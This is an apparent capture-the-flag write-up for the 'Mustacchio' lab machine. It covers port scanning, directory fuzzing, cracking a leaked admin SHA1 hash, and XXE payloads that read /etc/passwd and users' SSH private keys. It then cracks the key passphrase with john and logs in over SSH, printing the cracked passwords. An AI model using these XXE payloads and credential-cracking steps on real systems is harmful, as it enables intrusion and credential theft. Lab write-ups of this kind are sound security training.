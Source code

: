 # Mustacchio writeup
## nmap -p- -sV -n 10.10.238.61 -o nmap.txt
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
8765/tcp open  http    nginx 1.10.3 (Ubuntu)

step 1. check port 80
step 2. check port 8765
step 3. check port 22

http://10.10.238.61:8765/ - gives login page(admin panel)
## directory enumerate using FFUF on port 80
ffuf -u http://10.10.238.61/FUZZ -w /usr/share/wordlists/dirb/common.txt
found a directroy **/custom**

http://10.10.238.61/custom/js/ -> found this path
there is a users.bak file
download this file using command wget http://10.10.238.61/custom/js/users.bak
file users.bak  -> helps us determine the file type. In this case it is an SQLite 3.x database, last written using SQLite version 3034001

lets try to open the same using sqlite3

$ sqlite3 users.bak                 
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables    -> it list the users table
users
sqlite> SELECT * FROM users;
admin|1868e36a6d2b17d4c2745f1659433a54d4bc5f4b

Go to https://crackstation.net/
this is a sha1 hash with value bulldog19

## lets login to admin panel
ffuf -u http://10.10.238.61:8765/FUZZ -w /usr/share/wordlists/dirb/common.txt

Logged in using admin
It asks to add a xml comment
Checked the source code and found //document.cookie = "Example=/auth/dontforget.bak"; 
http://10.10.238.61:8765/auth/dontforget.bak - > downloaded the dontforget.bak file
dontforget.bak: XML 1.0 document
lets add the xml content found in dontforget.bak file to the comment
So the xml content we mention in the comment reflects back.
## lets try for XML injection
XML External Entity injection is working
----------------------------------------------
Refer https://book.hacktricks.wiki/en/pentesting-web/xxe-xee-xml-external-entity.html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY ext "hahah"> ]>
<comment>
  <name>&ext;</name>
  <author>Barry Clad</author>
  <com> test1.</com>
</comment>   
-----------------------------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///etc/passwd" > ]>
<comment>
  <name>&ext;</name>
  <author>Barry Clad</author>
  <com> test1.</com>
</comment>   
-----------------------------------------------------
joe:x:1002:1002::/home/joe:/bin/bash barry:x:1003:1003::/home/barry:/bin/bash
lets try to access the home directories of joe and barry
<!DOCTYPE replace [<!ENTITY xxe SYSTEM 'file:////home/joe/.ssh/id_rsa'>]>
here The first two slashes (//) mark the start of the file URI after the file: scheme.
The next two slashes (//) are needed to indicate the absolute path on a local file system. These slashes are necessary when specifying the path on Unix-like systems (e.g., Linux, macOS).
-------------------------------------------------------
joe does not work. So, we try for barry
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///home/joe/.ssh/id_rsa" > ]>
<comment>
  <name>&ext;</name>
  <author>Barry Clad</author>
  <com> test1.</com>
</comment> 
--------------------------------------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///home/barry/.ssh/id_rsa" > ]>
<comment>
  <name>&ext;</name>
  <author>Barry Clad</author>
  <com> test1.</com>
</comment> 

We get barry's private key
## working with ssh private key
chmod 600 id_rsa
Change this private key to a hash file that john can understand
/usr/share/john/ssh2john.py id_rsa > hash.txt
crack this hash usinh john
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
We get the value -> urieljames
lets try to ssh using barry and above password
ssh -i id_rsa barry@10.10.238.61
cat user.txt > userflag





